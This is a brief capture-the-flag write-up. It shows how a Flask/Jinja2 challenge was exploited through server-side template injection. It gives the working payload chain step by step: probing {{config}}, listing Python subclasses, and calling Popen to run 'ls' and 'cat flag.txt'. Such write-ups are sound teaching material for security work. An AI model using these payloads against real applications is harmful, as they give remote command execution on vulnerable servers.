

# Hey Buddy

This challenge had a text box and the source was given it was written in flask so I tried SSTI by passing {{2*6}} and I was presented with 12.


I looked up this amazing [blog](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

So First thing was to check if we can access `config`

```bash
# payload
{{config}}
```

Response


Now we add the module subprocess.

```bash
# payload
{{config.from_object('os')}}
```

And then check the config variable again we can see extra variables were added at the end


After that checking the classes loaded

```bash
# payload
{{''.__class__.__mro__[1].__subclasses__()}}
```

We can see there is Popen in there that means we can execute code


Finding the index of Popen class in my case it was `213`

Listing the contents of the directory

```bash
# payload
{{''.__class__.__mro__[1].__subclasses__()[213](["ls"],stdout=-1,stderr=-1).communicate()}}
```


There we can see there is a flag.txt, next command to display the contents of flag.txt.

```payload
{{''.__class__.__mro__[1].__subclasses__()[213](["cat","flag.txt"],stdout=-1,stderr=-1).communicate()}}
```


